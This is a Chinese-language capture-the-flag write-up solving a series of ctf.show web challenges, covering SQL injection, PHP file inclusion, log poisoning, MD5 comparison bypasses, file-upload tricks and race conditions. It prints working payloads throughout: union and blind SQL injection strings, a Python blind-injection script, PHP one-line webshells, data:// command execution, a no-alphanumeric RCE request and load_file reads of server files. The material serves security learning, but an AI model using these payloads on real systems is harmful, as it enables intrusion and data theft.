# 0x01前言

因为这里的题有些也是比较简单的，所以这里的知识点和做法不会讲述特别多，不会的可以直接看其他文章的题目有写的很详细的

# 0x02web题目

## web签到题

### #源码泄露

查看源代码然后拿去进行base64编码就可以拿到flag了

## web2

### #mysql联合注入

最简单的sql注入



进来是一个，页面源代码也没什么可用的信息，那我们就测试一下

先用永真语句打一下

```
username=1' or '1' ='1'--+&password=1
```



可以看到登录成功了，那我们就拿ctfshow作为账号去打一下

```
判断字段数
password=1&username=ctfshow' order by 3--+回显成功
password=1&username=ctfshow' order by 4--+回显失败
证明是三个字段
判断回显位置
password=1&username=ctfshow' union select 1,2,3--+发现2出现在了页面中，那我们用2作为回显位置去注入
爆破数据库
password=1&username=ctfshow' union select 1,database(),3--+数据库名为web2
爆破表名
password=1&username=ctfshow' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema='web2'),3--+有flag和user两个表
爆破flag表中字段
password=1&username=ctfshow' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='flag'),3--+
爆破字段中数据
password=1&username=ctfshow' union select 1,(select flag from web2.flag),3--+

```



成功拿到flag！

## web3

### #include文件包含

更简单的web题



include文件包含

直接用伪协议做试一下

```
?url=php://filter/read=convert.base64-encode/resource=flag.php
```

但是没什么，应该是文件名不对

那我们用data伪协议去做

```
data://text/plain,<?php system('ls');?>
```



读取文件

```
data://text/plain,<?php system('tac ctf_go_go_go');?>
```

成功拿到flag

这里也可以用input伪协议去做，url传入php://input，然后抓包用post传入命令或一句话木马

或者也可以用日志注入，方法有很多，就不赘述了

## web4

### #日志注入



和上一题一样的页面，我们先测试一下刚刚的方法能不能做

好吧页面没反应，应该是过滤了，我们试试input，发现出现了error



那就试一下日志注入吧

先看一下服务器的版本



是nginx，那就访问nginx下的access.log，url传参

```
?url=/var/log/nginx/access.log
```



在UA头传入一句话木马



然后访问并用蚁剑连接



然后在里面找flag就可以了

## web5

### #弱比较MD5

```php+HTML
ctf.show_web5
where is flag?
<?php
error_reporting(0);
    
?>
<html lang="zh-CN">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0, initial-scale=1.0" />
    <title>ctf.show_web5</title>
</head>
<body>
    <center>
    <h2>ctf.show_web5</h2>
    <hr>
    <h3>
    </center>
    <?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>

</body>
</html>
```

我们只看里面的php代码就行了

```php
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>
```

代码分析：

### `ctype_alpha($v1)`

在PHP中，`ctype_alpha($v1)` 函数用于检查字符串 `$v1` 是否只包含字母字符。如果字符串中的所有字符都是字母（A-Z和a-z），则函数返回 `true`，否则返回 `false`。

### is_numeric($v2)

在 PHP 中，`is_numeric($v2)` 函数用于检查变量 `$v2` 的值是否为一个数字或数字字符串。如果 `$v2` 是一个数字，包括整数或浮点数，或者是表示数字的字符串（比如 `"123"` 或 `"3.14"`），则函数返回 `true`；否则返回 `false`。

这里的话就是绕过md5验证，要求v1为为字母，v2为数字，并且v1与v2的md5值相同。
PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0
所以只要v1与v2的md5值以0E开头即可。

v1=QNKCDZO&v2=240610708

这两个的md5值都是0e开头，所以他们的md5值相等

### 开头为0E（MD5值碰撞）

字母数字混合类型：

s878926199a

0e545993274517709034328855841020

s155964671a

0e342768416822451524974117254469

s214587387a

0e848240448830537924465865611904

s214587387a

0e848240448830537924465865611904

纯大写字母：

QLTHNDT

0e405967825401955372549139051580

QNKCDZO

0e830400451993494058024219903391

EEIZDOI

0e782601363539291779881938479162

纯数字：

240610708

0e462097431906509019562988736854

4011627063
0e485805687034439905938362701775

4775635065
0e998212089946640967599450361168

4790555361
0e643442214660994430134492464512  

5432453531  
0e512318699085881630861890526097

5579679820
0e877622011730221803461740184915 

5585393579
0e664357355382305805992765337023

6376552501
0e165886706997482187870215578015  

7124129977 
0e500007361044747804682122060876  
7197546197
0e915188576072469101457315675502

7656486157      

0e451569119711843337267091732412

## web6

### #过滤空格的联合注入



是跟前面一样的登录界面

测试一下发现好像有过滤



出现一个sql注入错误，看看过滤了什么

测试后发现过滤了空格，用内联注释绕过

然后发现过滤了--+注释符号，我们换成#

```
username=1'/**/or/**/'1'='1'#&password=1
```



这下可以了

```
判断字段数
username=ctfshow'/**/order/**/by/**/3#&password=1字段数为3
判断回显位置
username=ctfshow'/**/union/**/select/**/1,2,3#&password=1还是一样2出现回显
爆破数据库
username=ctfshow'/**/union/**/select/**/1,database(),3#&password=1数据库为web2
爆破表名
username=ctfshow'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='web2'),3#&password=1出现flag和user表
查询flag表下字段
username=ctfshow'/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='flag'),3#&password=1出现flag字段
爆flag数据
username=ctfshow'/**/union/**/select/**/1,(select/**/flag/**/from/**/web2.flag),3#&password=1
```

成功拿到flag

## web7

### #数字型+引号过滤



不知道是啥，先点开看看，点开后发现url多了一个参数id，感觉是sql注入，而且是数字型

试一下闭合单引号



发现没变化，一开始我以为不是sql注入，后面发现是过滤了单引号,不过对题目没啥影响，只是在后面注入的时候引用名字的时候换成双引号就可以了

这道题还是过滤了空格，试一下永真语句

```
?id=1/**/or/**/'1'='1'#
```



这里可以看到是注入成功了的

我们再试一下

```
?id=1/**/or/**/1=1#
```



可以正常回显

判断字段数

```
?id=1'/**/order/**/by/**/4#字段数是3
```



判断回显位置

```
?id=1/**/union/**/select/**/1,2,3#
```



可以看到2和3都有回显，那我们用2进行注入

空格用/**/进行绕过，单引号用双引号就行

```
爆破数据库
?id=1/**/union/**/select/**/1,database(),3#数据库名为web7
爆破数据库表名
?id=1/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=“web7”),3#出现flag,page,user三个表
(其实这里的话我一开始不知道是过滤了单引号，我原来的语句是?id=1/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=‘web7’),3#然后发现并没有回显，所以才发现是过滤了单引号)
爆破表中字段
?id=1/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name="flag"),3#出现flag字段
爆破数据
?id=1/**/union/**/select/**/1,(select/**/flag/**/from/**/web7.flag),3#
```

## web8

### #布尔盲注+过滤逗号

做到这一题，基本可以写简单的注入工具了

还是一样的页面，我们先fuzz一下



union等字符被过滤了，尝试盲注

因为这里的逗号被过滤了，所以我们的盲注语句要稍微改一下

```
这是原来的语句
-1 or ascii(substr((select database()),1,1))='xx'%23
修改后
-1 or ascii(substr((select database())from 1 for 1))='xx'%23
```

### 绕过逗号

#### from for

盲注的时候为了截取字符串，我们往往会使用substr(),mid()。这些子句方法都需要使用到逗号，对于substr()和mid()这两个方法可以使用from for的方式来解决：

```plain
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

等价于mid/substr(database(),1,1)

前面的爆数据库就是不说了，把盲注的payload改一下就行了

### 布尔盲注脚本

```python
import requests

#爆破数据库长度
def database_length(url, headers):
    databaselen = 0
    for i in range(1, 100):
        databaselen_payload = f'?id=-1/**/or/**/length(database())={i}#'
        response = requests.get(url + databaselen_payload, headers=headers)
        if "I asked nothing" in response.text:
            databaselen = i
            break
    print('数据库长度为:  '+ str(databaselen))
    return databaselen

#爆破数据库名
def database_name(url, headers,databaselen):
    database_name = ''
    for i in range(0,databaselen):
        for j in range(32,128):
            database_name_payload = f'?id=-1/**/or/**/ascii(substr((select/**/database())from/**/{i+0}/**/for/**/1))="{j}"#'
            response = requests.get(url + database_name_payload, headers=headers)
            if "I asked nothing" in response.text:
                database_name += chr(j)
                print(database_name)
                break
    print('数据库名为:  '+ str(database_name))
    return database_name

#爆破表名
def table_name(url, headers,databasename):
    table_name = ''
    for i in range(0,100):
        for j in range(32,128):
            table_name_payload = f'?id=-1/**/or/**/ascii(substr((select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema="{databasename}")from/**/{i+0}/**/for/**/1))="{j}"#'
            response = requests.get(url + table_name_payload, headers=headers)
            if "I asked nothing" in response.text:
                table_name += chr(j)
                print(table_name)
                break
    print('表名为:  '+ str(table_name))
    return table_name
    
#爆破字段名
def column_name(url, headers,table_name):
    column_name = ''
    for i in range(0,100):
        for j in range(32,128):
            column_name_payload = f'?id=-1/**/or/**/ascii(substr((select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name="{table_name}")from/**/{i+0}/**/for/**/1))="{j}"#'
            response = requests.get(url + column_name_payload, headers=headers)
            if "I asked nothing" in response.text:
                column_name += chr(j)
                print(column_name)
                break
    print('字段名为:  '+ str(column_name))
    return column_name
#爆破数据
def table_data(url, headers):
    data = ''
    for i in range(0,100):
        for j in range(32,128):
            payload =f'?id=-1/**/or/**/ascii(substr((select/**/flag/**/from/**/web8.flag)from/**/{i+0}/**/for/**/1))="{j}"#'
            response = requests.get(url + payload, headers=headers)
            if "I asked nothing" in response.text:
                data += chr(j)
                print(data)
                break
    print('flag为:  '+ str(data))
    return data
if __name__ == '__main__':
    url = "http://ca996ae0-234f-4906-a89e-eb287b82f1e9.challenge.ctf.show/index.php"
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36'
    }
    databaselength = database_length(url, headers)
    databasename = database_name(url, headers,databaselength)
    tablename = table_name(url, headers,databasename)
    columnname = column_name(url, headers,tablename)
    table_datas=table_data(url,headers)
```

## web9

### #MD5的sql



很经典的登录界面，我以为是sql注入，但是后面测试发现打不通



包告诉我看到php可以扫一下目录，那我拿dirsearch扫一下目录



发现了一个robots.txt,访问后有一个文件



下载下来

```php
<?php
        $flag="";
		$password=$_POST['password'];
		if(strlen($password)>10){#检查密码的长度是否大于10个字符
			die("password error");
		}
		$sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						 echo "登陆成功<br>";
						 echo $flag;
					 }
			}
    ?>
```

这个是md5加密漏洞

### MD5 SQL绕过漏洞

#### md5(string,raw)函数

在 PHP 中，`md5()` 函数可以接受两个参数。第一个参数是要计算散列值的字符串，而第二个参数是一个布尔值，用于指定是否返回原始二进制格式的散列值。

- 当第二个参数设置为 `false` 或者不提供时，`md5()` 函数将返回一个32位的十六进制散列值（即字符串形式的散列值）。
- 当第二个参数设置为 `true` 时，`md5()` 函数将返回一个16字节（128位）的二进制格式的散列值。这个二进制格式的散列值不是以文本形式表示的，而是以字节的形式表示。

md5看似是非常强加密措施，但是一旦没有返回我们常见的16进制数，返回了二进制原始输出格式，在浏览器编码的作用下就会编码成为奇怪的字符串（对于二进制一般都会编码）。

我们使用md5碰撞，一旦在这些奇怪的字符串中碰撞出了可以进行SQL注入的特殊字符串，那么就可以越过登录了。

在经过长时间的碰撞后，比较常用的是以下两种：
数字型：`129581926211651571912466741651878684928`
字符型：`ffifdyop`

我们验证一下

```php
<?php
    $a='ffifdyop';
    $b='129581926211651571912466741651878684928';
    $bb=md5($a,TRUE);
    echo $bb;
    echo "\n";
    $cc=md5($b,true);
    echo $cc
    ?>
```



可以看到这里有or语句

```
ffifdyop 的MD5加密结果是 276f722736c95d99e921722cf9ed621c

经过MySQL编码后会变成'or'6xxx,使SQL恒成立,相当于万能密码,可以绕过md5()函数的加密
```

就可以构造出必真的结果。

因为这里限制了长度，所以我们用ffifdyop



直接传进去就可以了

## web10

### #虚拟表构造绕过



看到是php还是先扫一下目录



没什么可用的信息

然后我们可以看到在页面中有一个取消的按钮，按了之后会下载一个index.phps

```php
<?php
		$flag="";
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }#定义一个函数用来检查传入的参数
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }#检查数据库连接情况，这里对做题没用可以忽略
		if(strlen($username)!=strlen(replaceSpecialChar($username))){
			die("sql inject error");
		}#需要我们输入的username和经过检测函数后的username的长度一样
		if(strlen($password)!=strlen(replaceSpecialChar($password))){
			die("sql inject error");
		}#password也是一样
		$sql="select * from user where username = '$username'";
		$result=mysqli_query($con,$sql);#使用 mysqli_query()函数执行之前构建的 SQL 查询。
			if(mysqli_num_rows($result)>0){#如果查询的结果大于0
                #使用 mysqli_fetch_assoc() 函数遍历结果集合，将每一行数据作为关联数组 ($row) 获取。
					while($row=mysqli_fetch_assoc($result)){
						if($password==$row['password']){
                            #检查输入的 $password 是否与数据库中检索到的用户的 password 字段相匹配。
							echo "登陆成功<br>";
							echo $flag;
						}
					 }
			}
    ?>
```

应该是正常的sql注入+绕过，那我们还是先来解析一下这段代码(我直接把注释放在代码中了)

### mysqli_query()函数

`mysqli_query()` 是 PHP 中用于执行 MySQL 查询的函数。

### mysqli_num_rows()函数

`mysqli_num_rows()` 是 PHP 中用于获取 MySQLi 结果集中行数的函数。这个函数通常用于在执行 SELECT 查询后确定返回的结果集中有多少行。它适用于使用 `mysqli_query()` 函数执行的查询。

### \s符号

\s"在正则表达式中代表匹配空白字符的元字符。空白字符包括空格、制表符、换行符等，用\s来表示，可以匹配任意空白字符。

思路:

我们发现很多关键字` $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";`都被过滤掉了，那么常规注入就不可行了，而且账户密码都进行了过滤，代码里面输出flag的要求是我们输入的password和数据库中的password是一样的，但是我们啥也不知道，那么怎么办呢？

### 构建虚拟表with rollup绕过

payload:

```
username:admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#
password:
```

with rollup:  mysql中的with rollup是用来在分组统计数据的基础上再进行统计汇总，用来得到group by的汇总信息。要配合 group by 一块儿使用，”group by password with rollup”,简单说一下，就是使用with rollup 查询以后，查询结果集合里面会多一条NULL 记录，这一题利用NULL 和空字符相等，而后获得flag。我们就是要通过with rollup使sql语句查询结果为null，然后不输入pwd使pwd为null就可以使$password==$row['password'],通过验证输出我们的flag

## web11

### #session伪造



看到源码泄露了

```php
<?php
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }
        if(strlen($password)!=strlen(replaceSpecialChar($password))){
            die("sql inject error");
        }
        if($password==$_SESSION['password']){
            echo $flag;
        }else{
            echo "error";
        }
    ?>
```

有了上一题的学习，这道题的话我们发现这道题的条件明显比上一题要简单很多

因为我们要让password过滤前后的长度相等，并且要等于session中的password值，所以我们抓个包，然后我们输入应该password的值并且修改session中password的值是一样的就行

这里我们把phpsession的值给为空，然后把密码也改成空就行



## web12

### #绕过disable_function



在页面源码中发现一个注释中提到参数cmd

get传入cmd为phpinfo();就可以出现php的配置信息，但是传入system函数没回显，传?cmd=eval($_GET[1]);&1=phpinfo();但是对1传system依旧没回显，可能是权限不够，在phpinfo里面看一下disable_functions



可以看到system等执行命令的函数都被禁用了，试一下能不能连上蚁剑去绕过disable_functions

测一下能不能写入文件



然后访问1.txt看到显示123，说明可以写，并且目录就是当前目录

payload

```
file_put_contents(%271.php%27,%27<?php eval($_POST[1]);?>%27);
```

访问1.php并用蚁剑去连马，绕过disable_functions就可以了



## 红包题第二弹

### #无数字字母RCE

和上一题一样的页面，随便对cmd传入一个值就出源码了

```php
    <?php
        if(isset($_GET['cmd'])){
            $cmd=$_GET['cmd'];
            highlight_file(__FILE__);
            if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
            
                die("cerror");
            }
            if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
                die("serror");
            }
            eval($cmd);
        
        }
    
     ?>
```

先用脚本输出可用字符

```php
#输出可用字符
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/[A-Za-oq-z0-9$]+|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",chr($i))){
            echo chr($i)." ";
        }
} 
?>
#+ . / ; < = > ? \ ` p | 
```

很简单，就是无数字字母里的临时文件上传rce

请求包

```
POST /?cmd=?><?=`.+/???/p?p??????`; HTTP/1.1
Host: 61f8ba71-d383-4585-b013-7fe10f2ba250.challenge.ctf.show
Content-Length: 296
Cache-Control: max-age=0
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiKHEKB03McUcMv6w
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryiKHEKB03McUcMv6w
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

#! /bin/sh
whoami
------WebKitFormBoundaryiKHEKB03McUcMv6w
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryiKHEKB03McUcMv6w--

```

这里如果是全部问号的话感觉匹配不上我们上传的文件，刚好漏了个字母p，应该就是这里用的

接着改文件内容进行rce就行

```
POST /?cmd=?><?=`.+/???/p?p??????`; HTTP/1.1
Host: 61f8ba71-d383-4585-b013-7fe10f2ba250.challenge.ctf.show
Content-Length: 303
Cache-Control: max-age=0
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiKHEKB03McUcMv6w
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryiKHEKB03McUcMv6w
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

#! /bin/sh
cat /flag.txt
------WebKitFormBoundaryiKHEKB03McUcMv6w
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryiKHEKB03McUcMv6w--

```

## web13

### #.user.ini文件上传



传了一个一句话木马显示大小错误，扫目录看到一个/upload.php



访问也没啥，后面看wp才知道这里有备份文件源码泄露，可能是题目做少了 没这种思路

访问upload.php.bak下载源码

```php
<?php 
	header("content-type:text/html;charset=utf-8");
	$filename = $_FILES['file']['name'];
	$temp_name = $_FILES['file']['tmp_name'];
	$size = $_FILES['file']['size'];
	$error = $_FILES['file']['error'];
	$arr = pathinfo($filename);
	$ext_suffix = $arr['extension'];
	if ($size > 24){
		die("error file zise");
	}
	if (strlen($filename)>9){
		die("error file name");
	}
	if(strlen($ext_suffix)>3){
		die("error suffix");
	}
	if(preg_match("/php/i",$ext_suffix)){
		die("error suffix");
    }
    if(preg_match("/php/i"),$filename)){
        die("error file name");
    }
	if (move_uploaded_file($temp_name, './'.$filename)){
		echo "文件上传成功！";
	}else{
		echo "文件上传失败！";
	}
 ?>
```

正则匹配

- 文件的大小 > 24（error file zise）
- 文件名的长度 > 9（error file name）
- 后缀名的长度 > 3（error suffix）
- 后缀名包含 php（error suffix）
- 文件名包含 php（error file name）

我们肯定是要上传一句话木马的，既然小于等于24可以这样写`<?php eval($_POST['a']);`正好24字节可以满足，但是由于后缀问题服务器无法解析该php语句。

一个新的知识点，利用.user.ini去包含我们的一句话木马



我们要上传一个.user.ini文件，.user.ini 是 PHP 的用户级配置文件。这个文件允许用户在特定目录中自定义一些 PHP 配置选项，以覆盖全局 PHP 配置。

PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。也就是在.user.ini中如果设置了文件名，那么任意一个页面都会将该文件中的内容包含进去。

我们在.user.ini中输入`auto_prepend_file =a.txt`，这样在该目录下的所有文件都会包含a.txt的内容

```
.user.ini的内容
auto_prepend_file=a.txt
```

然后编辑a.txt写一句话木马就行，这里要记得文件的内容大小问题

```php
<?php eval($_POST['a']);
```

然后在当前路径下进行post传参，应该是权限的问题，连马后操作不了

使用函数套用去看一下当前目录的文件



再用highlight_file去读文件就行

## web14

### #无列名注入+mysql读取文件

```php
<?php
include("secret.php");

if(isset($_GET['c'])){
    $c = intval($_GET['c']);
    sleep($c);
    switch ($c) {
        case 1:
            echo '$url';
            break;
        case 2:
            echo '@A@';
            break;
        case 555555:
            echo $url;
        case 44444:
            echo "@A@";
            break;
        case 3333:
            echo $url;
            break;
        case 222:
            echo '@A@';
            break;
        case 222:
            echo '@A@';
            break;
        case 3333:
            echo $url;
            break;
        case 44444:
            echo '@A@';
        case 555555:
            echo $url;
            break;
        case 3:
            echo '@A@';
        case 6000000:
            echo "$url";
        case 1:
            echo '@A@';
            break;
    }
}

highlight_file(__FILE__);
```

在代码中可以看到传入3的话由于case3后面没有break，所以他会继续往下执行，然后就会回显出$url参数的值，但是这里是带引号的，意思是不会返回url的内容

对于php，单引号包裹的内容只能当做纯字符串, 而双引号包裹的内容, 可以识别变量, 所以源码中的 "$url" 可以当做 $url 变量被正常执行

传入3后返回url的值是here_1s_your_f1ag.php，访问这个文件出现一个查询页面



用单引号闭合就看到弹窗没内容了，应该是存在sql注入的，后面测出来如果输入非法字符的话就没得弹窗，如果语句成功执行就会返回admin弹窗

可以先fuzz一下

在返回包中看到一个正则匹配

```php
	if(preg_match('/information_schema\.tables|information_schema\.columns|linestring| |polygon/is', $_GET['query'])){
		die('@A@');
	}
```

information_schema库被禁了，看看能不能打无列名注入

看一下语句错误和语句正确的回显



这是语句错误的时候的回显



语句正确的回显

同时过滤了空格

传入`1/**/or/**/true`回显admin弹窗，用`/**/`可以绕过空格

所以这里的话应该是要打无列名注入

先测一下字段数

```
1/**/order/**/by/**/1---------传入2报错，字段数为1
-1/**/union/**/select/**/1---------回显1(注意这里要填-1才会返回1的结果，不然返回位置会被1的查询结果占据)
-1/**/union/**/select/**/database()-----回显web,当前数据库为web
-1/**/union/**/select/**/(select/**/group_concat(table_name)from/**/mysql.innodb_table_stats/**/where/**/database_name='web')---------回显content表名，这里使用了innodb_table_stats获取表名
利用union别名查询每列的数据
-1/**/union/**/select/**/(select/**/group_concat(`1`)from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/content)as/**/a) ------1,1,2,3
-1/**/union/**/select/**/(select/**/group_concat(`2`)from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/content)as/**/a) ------2,admin,gtf1y,Wow
-1/**/union/**/select/**/(select/**/group_concat(`3`)from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/content)as/**/a)---3,flag is not here!,wow,you can really dance,tell you a secret,secret has a secret...
```

Flag 不在数据库中，可能还得mysql读取敏感文件

```
先看一下数据库用户名是什么
-1/**/union/**/select/**/user()------root@localhost
意味着我们可以用root用户高权限使用MySQL进行命令执行
-1/**/union/**/select/**/load_file("/etc/nginx/nginx.conf")------通过root /var/www/html;：知道了网页根目录
-1/**/union/**/select/**/load_file("/var/www/html/secret.php")----结合一开始题目的include代码，试着读取目录下的secret.php文件
```

读取后返回一段代码

```
<!-- ReadMe -->
<?php
$url = 'here_1s_your_f1ag.php';
$file = '/tmp/gtf1y';
if(trim(@file_get_contents($file)) === 'ctf.show'){
	echo file_get_contents('/real_flag_is_here');
}
```

直接读取目录下的real_flag_is_here

## 红包题第六弹

### #强碰撞+文件竞争

1.不是SQL注入 2.需要找关键源码



随便传入字符显示md5 error，一开始猜测是对用户名或者对密码的md5加密，尝试闭合括号后发现无果，只能另寻出路

用dirsearch扫目录后找到一个web.zip文件



访问后下载压缩包，拿到check.php的源码

```php
function receiveStreamFile($receiveFile){
 
    $streamData = isset($GLOBALS['HTTP_RAW_POST_DATA'])? $GLOBALS['HTTP_RAW_POST_DATA'] : '';
 
    if(empty($streamData)){
        $streamData = file_get_contents('php://input');
    }
 
    if($streamData!=''){
        $ret = file_put_contents($receiveFile, $streamData, true);
    }else{
        $ret = false;
    }
 
    return $ret;
 
}
if(md5(date("i")) === $token){//时间分钟数的MD5加密是否为$token值
	
	$receiveFile = 'flag.dat';
	receiveStreamFile($receiveFile);//接收数据流并写入flag.dat文件
	if(md5_file($receiveFile)===md5_file("key.dat")){//判断两文件的MD5值是否相等
		if(hash_file("sha512",$receiveFile)!=hash_file("sha512","key.dat")){
            //如果两个文件的sha512值不相等
			$ret['success']="1";
			$ret['msg']="人脸识别成功!$flag";
			$ret['error']="0";
			echo json_encode($ret);
			return;
		}

			$ret['errormsg']="same file";
			echo json_encode($ret);
			return;
	}
			$ret['errormsg']="md5 error";
			echo json_encode($ret);
			return;
} 

$ret['errormsg']="token error";
echo json_encode($ret);
return;
```

- 定义了一个名为 `receiveStreamFile` 的函数，主要功能是接收流数据并将其写入指定的文件中。
- `$GLOBALS['HTTP_RAW_POST_DATA']` 是 PHP 中的一个全局变量，用于获取 HTTP POST 请求中的原始数据。
- `date("i")` 中的参数 "i" 代表获取时间的分钟部分。

这里的话有条件就是需要让两个文件的md5值相等但是sha512值不相等



在源码中看到一行代码

```
oReq.open("POST", "check.php?token="+token+"&php://input", true);
```

 对当前日期做了一个MD5的编码,可以发现是需要用php://input获取文件流，然后返回一个文件

需要自己传上去的文件与已存在的key.dat MD5要一致，sha512不一致，但是首先的就是我们需要获取到这个key.dat，后来发现直接访问就下载下来了

但是这里是需要条件竞争的，因为token值是会变化的

直接贴脚本

```python
import requests  # 导入 requests 库，用于发送 HTTP 请求
import time  # 导入 time 模块，用于获取本地时间
import hashlib  # 导入 hashlib 模块，用于进行哈希加密
import threading  # 导入 threading 模块，用于多线程操作

# 生成一个代表当前分钟数的字符串，并存储在变量 i 中
i=str(time.localtime().tm_min)
# 使用 MD5 算法对分钟数进行哈希加密，生成 token，并存储在变量 m 中
m=hashlib.md5(i.encode()).hexdigest()
# 构造请求的 URL，其中 token 的数值由生成的 m 变量决定
url="http://335e5b97-20c5-455c-a7ad-808a2cdba8d8.challenge.ctf.show/check.php?token={}&php://input".format(m)

# 定义一个将数据以 POST 请求发送的函数 POST
def POST(data):
    try:
        r=requests.post(url,data=data)  # 发送 POST 请求到指定的 URL，并传递 data 数据
        if "ctfshow" in r.text:  # 如果响应文本中包含 "ctfshow"
            print(r.text)  # 打印响应文本
            pass
        pass
    except Exception as e:
        print("somthing went wrong!")  # 捕获异常，并打印错误信息
        pass
    pass

# 读取名为 'key.dat' 的文件内容，并存储在 data1 变量中
with open('key.dat','rb') as t:
    data1=t.read()
    pass

# 开启 50 个线程，每个线程发送一个 POST 请求，传递 data1 数据
for i in range(50):
    threading.Thread(target=POST,args=(data1,)).start()

# 开启 50 个线程，每个线程发送一个 POST 请求，传递 'emmmmm' 字符串数据
for i in range(50):
    data2='emmmmm'
    threading.Thread(target=POST,args=(data2,)).start()

```

把地址换一下就可以跑出来了，这里需要把key.dat文件放在python目录中



## 红包题第七弹

### #.git文件泄露+绕过disable_function

开出来就是php配置信息



先看看这里有啥吧，顺便扫一下目录，发现有.git文件



用GitHack去获取.git文件



有两份文件

```php
//index.php
<?php phpinfo();?>
```

```php
//backdoor.php
<!-- 36D姑娘留的后门，闲人免进 -->
<?php 
	@eval($_POST['Letmein']);
?>
```

有后门文件，路径就是当前目录下的/backdoor.php，访问后用蚁剑链接然后绕过disable_function



一开始以为flag是在根目录的，然后去那里看了半天，结果发现是假的flag

## 萌新专属红包题

### #弱口令爆破



扫了一下目录，发现了一个main文件



但是访问了啥都没有，继续回到登录界面看看，尝试弱口令爆破

试一下admin/adminxxxx的弱口令尝试





直接爆出来了

admin/admin888

在返回包看到有flag加密字符



加密出来就是flag了

## CTFshow web1

### #布尔盲注

flag在指定用户的密码中。

一个登录界面，注册后登录



应该是需要找到这个flag用户的密码

但是在登录的时候抓包发现密码都会变成一段长字符



常规扫目录看到有www.zip文件，下载下来

```php
//login.php
<?php
		error_reporting(0);
		session_start();
		$con = mysqli_connect("localhost","root","root","web15");
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		$username=$_POST['username'];
		$password=$_POST['password'];
		if(isset($username) && isset($password)){
			if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\,|\`|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\_|\+|\=|\]|\;|\'|\’|\“|\"|\<|\>|\?/i",$username)){
				die("error");
			}
			$sql="select pwd from user where uname = '$username' limit 1";
			$res=mysqli_query($con,$sql);
			$row = mysqli_fetch_array($res);
			if($row['pwd']===$password){
				$_SESSION["login"] = true;
				header("location:/user_main.php?order=id");
			}else{
				header("location:/index.php");
			}
		}else{
			header("location:/index.php");
		}

?>

```

```php
//index.php
			function check(){
				var p=$.md5($(".password").val());
				$(".password").val(p);
			}
```

